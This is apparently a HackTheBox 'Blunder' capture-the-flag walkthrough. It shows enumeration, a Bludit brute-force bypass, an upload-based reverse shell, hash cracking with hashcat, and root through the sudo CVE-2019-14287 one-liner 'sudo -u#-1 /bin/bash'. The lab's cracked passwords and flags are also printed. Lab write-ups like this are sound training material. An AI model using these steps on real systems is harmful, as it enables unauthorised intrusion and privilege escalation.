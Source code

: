 ```yaml
---
title: HackTheBox - Blunder
date: 2021-01-20 17:37:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, Bludit, searchsploit, brute-force, bruteforce protection bypass, chaining exploits, CVE-2019-17240, CVE-2019-16113, cewl, custom wordlist, reverse-shell, linpeas, hashcat, Rule-based Attack, sudo undeflow, CVE-2019-14287, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/Blunder.png
---
```


## Enumeration

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Blunder-full-port-scan.txt 10.10.10.191
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

### Apache/2.4.41 (port 80)

![Apache 2.4.41](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/80.png)

#### `gobuster`

```bash
$  gobuster dir -u http://$TARGET/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x .txt
#...
/0 (Status: 200)
/LICENSE (Status: 200)
/about (Status: 200)
/admin (Status: 301)
/cgi-bin/ (Status: 301)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
#...
```

#### `/todo.txt`

![todo.txt](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/80-todo.png)

We identified a potential user: `fergus`

#### `/admin` (BLUDIT)

On `/admin` we can see there is a [Bludit](https://www.bludit.com/) (CMS) login page:

![Bludit](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/80-admin-bludit.png)

Looking at HTML source code, I found that:

![Bludit version](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/80-bludit-version.png)

I assumed that **Bludit**'s version was `3.9.2`: 

#### searchsploit

There are some exploits against Bludit:

![searchsploit](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/searchsploit.png)

`multiple/webapps/48701.txt` allows us to obtain a reverse shell but it requires authentification.

`php/webapps/48942.py` can be used to bypass brute force protection.

## Foothold

### CeWL - Custom Word List generator

Using a cool tool named `cewl`, we can generate a custom wordlist based on website keywords:

```bash
$ cewl http://10.10.10.191/ > cewl-wordlist.txt
```

![cewl](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/cewl.png)

### 48942.py - Bludit Auth Bruteforce Bypass

I copied `/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt` as `users.txt` and I added `fergus` to this wordlist .

Then I ran `48942.py`: 

```bash
$  python3 48942.py -l http://10.10.10.191/admin/login.php -u users.txt -p cewl-wordlist.txt
```

> The trick part of this bruteforce protection bypass is the HTTP header `X-FORWARDED-FOR` as explained in [Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/).

SUCCESS! The password of `fergus` is `RolandDeschain`:

![SUCCESS](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/SUCCESS.png)

### 48701.py - Directory Traversal

`multiple/webapps/48701.txt` comes with a python script that need some parameters:
- target URL
- a valid username
- a valid password
- a malicious PNG image containing PHP code with reverse shell (we can use `msfvenom`)
- an `.htaccess` file with specifics instructions  

![48701.py](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/48701.png)

### Reverse shell

Then we have to visit [http://10.10.10.191/bl-content/tmp/temp/evil.png](http://10.10.10.191/bl-content/tmp/temp/evil.png) and we got a shell:

![reverse-shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/reverse-shell.png)

> I used `msfvenom` to generate `evil.png` in the first place, but finally I replaced it with [tiny PHP/bash reverse shell](https://gist.github.com/rshipp/eee36684db07d234c1cc) because I couldn't upgrade my shell using `msfvenom` solution.

After getting a shell, I executed `linpeas.sh` and I saw a potential password in `/var/www/bludit-3.10.0a/bl-content/databases/users.php`:

![password](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/DB_PASS.png)

```bash
$ cat /var/www/bludit-3.10.0a/bl-content/databases/users.php    
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

It is a hexadecimal string of length 40 so it's certainly a hash and not a password!

![SHA1](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/SHA1.png)

### `hashcat` rule based attack

Let's try to crack it via `hashcat`:

```bash
$ echo -n "faca404fd5c0a31cf1897b823c695c85cffeb98d" > hash.txt 
$ hashcat -m 100 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
#...
faca404fd5c0a31cf1897b823c695c85cffeb98d:Password120
#...
```

> We could also use [md5decrypt.net](https://md5decrypt.net/en/Sha1/).

## User (hugo)

We can log in as `hugo` with the password we just found: `Password120`.

```bash
www-data@blunder:/tmp$ su hugo
Password: Password120
hugo@blunder:~$ id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
hugo@blunder:~$ cat user.txt
4136078049bf0679491413a880cb1b42
hugo@blunder:~$ sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

`sudo`'s version is `1.8.25` is vulnerable to `CVE-2019-14287` that could allow privilege escalation, even though the configuration explicitly disallows this.

The vulnerability affects all Sudo versions prior to the latest released version `1.8.28`.

![sudo version](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/sudo.png)

![google search](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/google.png)

![attack scenario](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/root-hacking.png)

## Privesc to root

```console
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: Password120
root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
dc6cb3733fe01dafef1eecfc147f56eb
```

___

## Useful links

- [Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)
- [CVE-2019-17240 - Bludit bypass a brute-force protection](https://nvd.nist.gov/vuln/detail/CVE-2019-17240)
- [CVE-2019-16113 - Bludit remote code execution](https://nvd.nist.gov/vuln/detail/CVE-2019-16113)
- [Rule-based Attack](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- [sudo 1.8.27 - Security Bypass](https://www.exploit-db.com/exploits/47502)
- [CVE-2019-14287 - sudo underflow](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)
- [Sudo Flaw Lets Linux Users Run Commands As Root Even When They're Restricted](https://thehackernews.com/2019/10/linux-sudo-run-as-root-flaw.html)